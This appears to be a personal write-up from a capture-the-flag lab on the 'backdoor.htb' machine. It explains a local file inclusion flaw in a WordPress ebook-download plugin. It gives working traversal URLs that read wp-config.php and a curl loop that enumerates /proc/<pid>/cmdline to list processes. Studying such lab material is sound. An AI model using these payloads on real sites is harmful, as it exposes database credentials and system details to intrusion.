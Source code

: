 ```yaml
---
title: "LFI"
date: 2022-05-04T13:03:15+02:00
---
```


# LFI
 ## General info
Some LFI will look like so : 
`http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php`

Sometimes, the several '../../../' can be translated to : //, eg. :

`http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=//wp-config.php`

This is better looking, and shorter...

In this case, the LFI can also be used to get a list of all running process by using the info from the `/proc` filesytem. However, since the LFI return "entire" PHP code, it seems it won't be able to execute any code.

## Get the list of running processes

```
for i in $(seq 0 2000); do echo -n "$i: "; curl "http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=//proc/$i/cmdline" --output -; echo; done | tee pid.lst
```


We write the first 2000 processes into `pid.lst`.